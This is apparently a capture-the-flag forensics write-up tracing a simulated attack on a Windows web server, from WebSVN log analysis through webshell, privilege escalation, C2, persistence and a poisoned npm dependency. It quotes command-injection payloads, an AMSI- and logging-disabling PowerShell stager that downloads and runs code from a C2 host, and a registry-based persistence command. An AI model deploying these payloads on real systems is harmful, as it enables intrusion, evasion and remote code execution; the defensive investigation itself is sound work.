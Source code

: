 # Webserver logs

There are interesting queries in the webserver access logs. This is one of the early signs of the attack, giving the start of the timeframe where other events should be looked upon. There are signs of attacking the WebSVN server.

[c:\inetpub\logs\LogFiles\W3SVC1\u_ex220725.log](workdir/u_ex220725.log)

```log
2022-07-25 13:10:12 192.168.248.140 GET /listing.php repname=work&template=calm 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work&template=Elegant 200 0 0 231
2022-07-25 13:10:22 192.168.248.140 GET /search.php repname=work&search=%22%26flag%7Bdef_1_7e7b364a9671dc7eb51415d302474689%7D%26 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work&template=calm 500 0 0 255
2022-07-25 13:10:43 192.168.248.140 GET /search.php repname=work&search=%22%26ping+127.0.0.1+-n+6+%3E+nul%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work&template=calm 500 0 0 5357
2022-07-25 13:10:58 192.168.248.140 GET / - 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 - 302 0 0 66

```

![](screenshots/1.png)

The flag is ther urlencoded.

# Flag WebProbe
flag{def_1_7e7b364a9671dc7eb51415d302474689}

# Webshell

There are also traces in the logs that a `YD2kb6.ZiP.B64` file was uploaded then decoded  (`c:\php\YD2kb6.ZiP.B64` -> `YD2kb6.ZiP` -> `YD2kb6.php`). The php file contains the flag encoded.

```log
2022-07-25 13:23:01 192.168.248.140 GET /search.php repname=work&search=%22%26echo+UEsDBBQAAgAIALB6%2BVRrlN1P6QQAAPQNAAAKAAAAWUQya2I2LnBocLVX%2B0%2FcOBD%2BV0K1Wie6dLsPSoGQBemoVHRXQIWKK9wqysMhEdkkip1Cu%2BR%2Fv%2FErrwtd7odDgtifx988PJ4xR8d5lGt%2B4hKiXUU4STZ5EX93KdZGbhAUdlomiVVDeVbQHpSRHkAYSw8LMPGLOKdZQXLs225RuD%2F0qb0UA5THOUYmKpBhzvrgI4DzAdBo2L0yDHFhz6bz3Qb0E5za02aOiyIr7NBNCLby0ktiXwvL1KdxlmqO42cpoUXpU527bXJPjc2IRjF5u%2BSR4AuWRHgguJBVKRU1XYApBibYLkY4sIEbW3Gog5I4z4h%2B%2BenSubgy0c3Z%2BWKOjB1bWPb8PCBwfr1F4PTi5qoRqa2Gk6lXld3icJC%2FDib4CSOrwrCjZaeIT1VgWhapVuNDTrp4naXxT8z8xE8xlXvByR0l5ABOKIFj81OaOGFWPMDBbbhSDQT1UR4H9kmzqhvG0bQlwNaXU6WAB7G2jUEDdhFMaZzeEzDrhJ%2B5U2B2ToDpU8M6gXWHxmvsJPE6phwq1y55YKMBL8t1ro8Cl7rsNOFjQ%2FwZY%2BL6WEdHkIvjhFrIFDLWgMySydy3ZLAfZRofDygssBvoIyDA7tocpe4amzK%2FjQ2PGFdwEnblpIRh93NAZH03cC9ofixiivuqhedcsfeDYgKae3Jc4nWKOcOQz4%2F6KE7zkpqjrKT8Gwv1GfsYm8coTrDyXSoQAZDbpLhYUcEYjyUgLVbcWcs17ltzX%2BzmxsBuLsiwq%2BvTs3NU%2B8ZKy2%2FskOErk8Oq5ForYazq3656W30dhYS6cJnYXykKaUXgotli6Q6xCVpZv7A8bll%2B8fUa1aFgpqt4tqDldDxWJ9yG7U5IjzuzwzZlrWDoWDiv0QnfW1tmA%2FesnlWVNI2hHaM48GtzmIjBtmxLE2nP6%2FKja%2BDwKffaSVGmejuxVD8Yj3cU0hTPOixN4YKgZP4DpnDZ2CDLWZo1nchs9SCT9bU04x9ISHMBVYwpFgTGRtxShxU9LwGMVUG5aIoLa43yIvMxgavNBk5bG%2B8WZu1Fu4dDh4RWTEzW5%2FkfoVdyGRuo5tj1I12IaS7R%2BOgFi9iSsqcasSwvic3NuQc5MW%2FIraYICU%2FeXF38%2FsfH60PxgtEi0AYNPeWta0e7PDs91DaS9Q6eEAFaVX%2BnbwwryDbblYFbIc6amBobDzx4sOomJVa5n3ezlfH8vFPrgkxIwUG0qjfJuknkGwix%2FETqeaP8qcnUaL4y4NHDfAZZHnKEn3ycUzmFU0zLteNHbnqPA0fpOKmDnbAEVLrvhFZgrwHB3UYk%2F8qUGTXEXxf9XkSGhFkb71esP8%2FOv%2F6FOB6nTi8GPWObi8JKaDdQ05WJRApAr5XF2qo6rCqOW3hbYkIDo%2Fv45QuqFQwTz15HPOsSs9LcJm4COFTX%2F8c46d2uUycdq5GdplOTe%2F8lWoP0s1fSb4uZ6hmqtvKXh2G9WIBCP8kIFjh%2F8sHFV5C685USkneeq2HvNnSUL9HEcwne23UC7GcBvPBu10%2FR7YI%2B3N7chp%2BT%2Ffff1t%2BmyJhE%2BGnuxamOFtPFAfy%2BBwwOq8DfdVQt9oIPM3%2Ffw%2BEimC5mMPO9D97BAcigo3egRDwTQV%2BBYQL%2FVdkpfhQFTkezg%2Flktrc%2Fme%2FuT2aLBTJ34Yf1jQiOnXUfq0yhwoL9kaGI3gkm7Xj5D1BLAQIUABQAAgAIALB6%2BVRrlN1P6QQAAPQNAAAKAAAAAAAAAAEAIAAAAAAAAABZRDJrYjYucGhwUEsFBgAAAAABAAEAOAAAABEFAAAAAA%3D%3D%3Ec%3A%5Cphp%5CYD2kb6.ZiP.B64%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 0 1328
2022-07-25 13:30:05 192.168.248.140 GET /search.php repname=work&search=%7C%22%26cd+%5CpHp%26cERtUtIl+-dEcOdE+YD2kb6.ZiP.B64+YD2kb6.ZiP%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 0 892
2022-07-25 13:34:48 192.168.248.140 GET /search.php repname=work&search=%7C%22%26cd+%5CpHp%26TaR+-xf+YD2kb6.ZiP%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 0 673
2022-07-25 13:37:04 192.168.248.140 GET /search.php repname=work&search=%7C%22%26cd+%5CpHp%26pHp+YD2kb6.PHp%26%22 80 - 192.168.248.133 Mozilla/5.0+(X11;+Linux+x86_64;+rv:91.0)+Gecko/20100101+Firefox/91.0 http://192.168.248.140/listing.php?repname=work 500 0 258 100452
```

The part of the decoded php with flag.

```php
echo base64_decode('ZmxhZ3tkZWZfMl85YmY0').hex2bin('30393035').strrev('}36d71c8bef3d0316d7cb7b99');
```

# Flag WebShell
flag{def_2_9bf4090599b7bc7d6130d3feb8c17d63}

# Privesc

Looking malicious artifacts around/after `2022-07-25 13:10:22`.

The `c:\Users\Public\` is a common place to drop payloads. There were 2 new files created based on the search: `defender.bat` and `dusmapi.dll`.

The former is turning off the antivirus, the latter is a binary that can be used for privesc, with the flag.

![](screenshots/2.png)

# Flag Privesc
flag{def_3_38adb16bf4985ab3dd135d236c804941}

# C2

There are suspicious event logs around the other events, (`7/25/2022 16:38:24`). Running `powershell -noP -sta -w 1 -enc <base64str>`.

![](screenshots/3.png)

The decoded command.

```powershell
If($PSVersionTable.PSVersion.Major -ge 3){$Ref=[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils');$Ref.GetField('amsiInitFailed','NonPublic,Static').Setvalue($Null,$true);[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0);};[System.Net.ServicePointManager]::Expect100Continue=0;$wc=New-Object System.Net.WebClient;$u='flag{def_4_dd0711788d0095025fe4afedffbe7331}';$ser=$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMgA0ADgALgAxADMAMwA6ADgAMAA4ADAA')));$t='/admin/get.php';$wc.Headers.Add('User-Agent',$u);$wc.Proxy=[System.Net.WebRequest]::DefaultWebProxy;$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;$Script:Proxy = $wc.Proxy;$K=[System.Text.Encoding]::ASCII.GetBytes('lrmY^e_.E24qXpy[|?uAdwg,V6SOvK%T');$R={$D,$K=$Args;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.Count])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxor$S[($S[$I]+$S[$H])%256]}};$wc.Headers.Add("Cookie","gxPIiBUKLYy=saJGQPWUCg8AReQwuq94LZ0mWQ0=");$data=$wc.DownloadData($ser+$t);$iv=$data[0..3];$data=$data[4..$data.length];-join[Char[]](& $R $data ($IV+$K))|IEX 
```

While the first thing the script does is to turn off scriptblock logging, there were leftovers. This event log was not deleted like System either. The script is downloading encrypted data from the `http://192.168.248[.]133:8080/admin/get.php` C2 server. `$u` contains the flag in the code.

# Flag C2#1
flag{def_4_dd0711788d0095025fe4afedffbe7331}

# Autoruns
Checking [Autoruns](https://learn.microsoft.com/hu-hu/sysinternals/downloads/autoruns) reveals the `\Updater` scheduled task.

![](screenshots/4.png)

Checking the descriptor `c:\Windows\System32\Tasks\Updater` reveals the next command. The creation time also shows that it is relevant. The registry key is similar to the other C2 script, starting it from [SAM](https://learn.microsoft.com/en-us/windows/win32/sysinfo/registry-hives) hive.

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>2022-07-25T16:53:20</Date>
    <Author>WORKGROUP\WIN-G59KIL646VK$</Author>
    <URI>\Updater</URI>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2022-07-25T09:00:00</StartBoundary>
      <Enabled>true</Enabled>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Settings>
  ....
  <Actions Context="Author">
    <Exec>
      <Command>C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Command>
      <Arguments>-NonI -W hidden -c "IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKLM:SAM flag{def_5_3e02c5f1767a16cfc6bb89ddde54a8bd}).flag{def_5_3e02c5f1767a16cfc6bb89ddde54a8bd})))"</Arguments>
    </Exec>
  </Actions>
  ...
</Task> 

```

![](screenshots/5.png)

# Flag C2#2
flag{def_5_3e02c5f1767a16cfc6bb89ddde54a8bd}

# SVN
There are multiple signs that this is a development machine (svn, nodejs).

Based on the `c:\Users\Administrator\npm-deps\README.txt`, the dependencies are stored there.

```
These are dependencies that we use for our builds.
```

The dependencies are on github (see `.github` folder). Installing git can clone a fresh variant and copying over the files can check the modifications easily.

For example `Express JS 4.18.1 / 2022-04-29`. <https://github.com/expressjs/express/commit/d854c43ea177d1faeea56189249fff8c24a764bd>

There is an extra file in the express (Express.js) directory.

```
c:\Users\Administrator\npm-deps\express\lib\router\http.js
```

![](screenshots/6.png)

Upon closer look, this is am obfuscated, out of place file.

![](screenshots/7.png)

Quick analyzis reveals it is dropping the flag in the user directory (`userHomeDir`, `flag6.txt`, `flag{def_6...`)

Can be checked with [Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) during runtime. The flag is under `c:\Users\Administrator\flag6.txt`.

![](screenshots/8.png)

# Flag Poison
flag{def_6_2faeee9ac1871c8f17c55c2050cf2899}
